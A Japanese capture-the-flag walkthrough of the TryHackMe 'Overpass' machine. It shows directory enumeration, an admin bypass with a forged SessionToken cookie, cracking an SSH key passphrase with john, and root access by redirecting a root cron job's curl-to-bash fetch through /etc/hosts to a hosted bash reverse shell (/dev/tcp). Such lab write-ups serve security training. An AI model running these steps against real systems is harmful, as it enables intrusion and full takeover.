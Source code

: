 # Overpass

## ディレクトリ探索
gobusterコマンドでディレクトリを探す。
```shell
$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -e -x php,html,txt -u http://10.10.205.110
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.205.110
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,html,txt
[+] Expanded:                true
[+] Timeout:                 10s
===============================================================
2021/08/14 15:32:12 Starting gobuster in directory enumeration mode
===============================================================
http://10.10.205.110/index.html           (Status: 301) [Size: 0] [--> ./]
http://10.10.205.110/img                  (Status: 301) [Size: 0] [--> img/]
http://10.10.205.110/downloads            (Status: 301) [Size: 0] [--> downloads/]
http://10.10.205.110/aboutus              (Status: 301) [Size: 0] [--> aboutus/]  
http://10.10.205.110/admin                (Status: 301) [Size: 42] [--> /admin/]  
http://10.10.205.110/admin.html           (Status: 200) [Size: 1525]              
Progress: 1576 / 350660 (0.45%)                                                  ^C
[!] Keyboard interrupt detected, terminating.
                                                                                  
===============================================================
2021/08/14 15:32:50 Finished
===============================================================
```

## Administrotor area
ブラウザで/admin/へアクセス。ログイン画面が表示されるが、認証情報は不明。  
適当なID,PWを入れると「Incorrect Credentials」と表示される。  
login.jsを見ると、正常処理時にはSessionTokenというクッキーに値を入れて/adminへ遷移するぽい。
```JavaScript
if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
```

ブラウザのコンソールを使用して、適当にCookieを作成する。
```JavaScript
document.cookie="SessionToken=hoge"
```
この状態でリロードすると、Welcome to the Overpass Administrator areaページが表示される。

## SSH認証
ページにはJamesという名前と、SSHのキーがベタ書きされている。
SSHキーをファイル名`id_rsa`として、保存する。

SSHコマンドで接続試行するが、パスフレーズが不明。
```shell
$ chmod 600 rsa_id
$ ssh -i rsa_id james@10.10.205.110
Enter passphrase for key 'rsa_id': 
```

johnコマンドを使用してパスフレーズを割り出す。
```shell
$ python ssh2john.py rsa_id > id_rsa.hash
$ john id_rsa.hash -wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
XXXXXX          (rsa_id)
1g 0:00:00:02 14.86% (ETA: 15:15:25) 0.4000g/s 941196p/s 941196c/s 941196C/s 17kiss..17hillview
Session aborted
```

見つけたパスフレーズを使用してSSH接続。  
ログイン先直下の`user.txt`が1つ目のフラグ。
```shell
$ ssh -i rsa_id james@10.10.205.110
Enter passphrase for key 'rsa_id': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Aug 14 06:19:15 UTC 2021

  System load:  0.0                Processes:           88
  Usage of /:   22.3% of 18.57GB   Users logged in:     0
  Memory usage: 12%                IP address for eth0: 10.10.205.110
  Swap usage:   0%


47 packages can be updated.
0 updates are security updates.


Last login: Sat Jun 27 04:45:40 2020 from 192.168.170.1
james@overpass-prod:~$ ls
todo.txt  user.txt
james@overpass-prod:~$ cat user.txt 
thm{XXXXXX}
```

## root権限の取得方法模索
`sudo -l`では使えそうなものが見つからない。  
crontabを開くと、一番最後にroot権限で実行されるshが存在する。
```shell
james@overpass-prod:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

shの置き場所である`overpass.thm`はどこなのか確認すると、127.0.0.1。  
これを書き換えれば、任意のサーバの`downloads/src/buildscript.sh`が実行されると思われるため、  
リバースシェルを狙う。  
自身の接続元マシンのIPアドレスに上書きして保存。
```text
127.0.0.1 localhost
127.0.1.1 overpass-prod
127.0.0.1 overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

## リバースシェル
接続元PC上にshellを準備する。  
`downloads/src/buildscript.sh`の配置になるように適宜ディレクトリを作成。
```shell
bash -i >& /dev/tcp/MACHINEIP/8080 0>&1
```

別ウインドウで待ち受けの準備をする。  
```shell
$ nc -lvp 8080
listening on [any] 8080 ...
```

Webサーバを立ち上げる。  
crontabでアクセスされたタイミングでログが表示される。
```shell
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

アクセスされた直後、待ち受け側のウインドウに接続される。  
rootでのshellが確立されるので、`root.txt`を確認して完了。
```
10.10.205.110: inverse host lookup failed: Unknown host
connect to [XX] from (UNKNOWN) [10.10.205.110] 57858
bash: cannot set terminal process group (16995): Inappropriate ioctl for device
bash: no job control in this shell
root@overpass-prod:~# ls
ls
buildStatus
builds
go
root.txt
src
root@overpass-prod:~# cat root.txt
cat root.txt
thm{XXXXXX}
```
